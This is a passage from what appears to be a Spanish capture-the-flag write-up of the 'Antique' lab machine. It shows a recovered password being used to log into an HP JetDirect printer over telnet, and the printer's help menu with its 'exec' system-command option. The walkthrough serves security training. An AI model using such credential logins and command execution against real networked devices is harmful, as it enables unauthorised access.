 ```
P@ssw0rd@123!!123	"#%&'01345789BCIPQTWXaetuy	
```
### Telnet Enumeration

Vemos que hay una `impresora` llamada `HP JetDirect`, he buscado información acerca de cuales pueden ser las credenciales por defecto y he encontrado esto

![](/assets/img/Antique/image_2.png)

Nos `conectamos` a la `impresora`

```
# telnet 10.129.214.250 23   
Trying 10.129.214.250...
Connected to 10.129.214.250.
Escape character is '^]'.

HP JetDirect

Admin
Password: P@ssw0rd@123!!123

Please type "?" for HELP
> 
```

Vemos que podemos `ejecutar comandos`

```
Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
